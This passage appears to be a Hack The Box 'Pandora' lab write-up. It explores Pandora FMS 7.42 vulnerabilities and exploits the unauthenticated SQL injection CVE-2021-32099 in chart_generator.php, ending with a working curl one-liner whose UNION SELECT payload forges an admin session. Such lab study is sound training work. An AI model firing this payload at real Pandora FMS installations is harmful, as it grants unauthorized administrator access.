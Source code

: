 ```bash
PASSWORD: HotelBabylon23
WEBFILE: unicord.php
WEBSITE: http://locahost:8080/pandora_console
ERRORED: Could not log in to website!
```

### SQL Injection (CVE-2021-32099)

I found another detailed explanation about different approaches;
https://www.sonarsource.com/blog/pandora-fms-742-critical-code-vulnerabilities-explained/

This includes "Unauthenticated SQL Injection" vulnerability, which might be suitable for our case.

[This post](https://blog.sonarsource.com/pandora-fms-742-critical-code-vulnerabilities-explained/) mentions four of those, a SQL injection (CVE-2021-32099), a phar deserialization (CVE-2021-32098), a remote file inclusion (CVE-202132100), and a cross-site request forgery (no CVE), and goes into a ton of detail about the SQL injection.

The injections is in `/include/chart_generator.php`. It passes `$_REQUEST['session_id']` to the constructor for a `PandoraFMS\User` object, and that is not sanitized.

Let's try simple PoC with `&session_id='`.

![](attachments/pandora_4.png)

With `ORDER BY`, I checked that the number of columns is 3.

![](attachments/pandora_5.png)

I found a easy [one-line PoC](https://github.com/ibnuuby/CVE-2021-32099) to enable authentication automatically.

```bash
┌──(kali㉿kali)-[~/htb/pandora]
└─$ curl 'http://pandora.panda.htb:8888/pandora_console/include/chart_generator.php?session_id=a%27%20UNION%20SELECT%20%27a%27,1,%27id_usuario|s:5:%22admin%22;%27%20as%20data%20FROM%20tsessions_php%20WHERE%20%271%27=%271'     
```
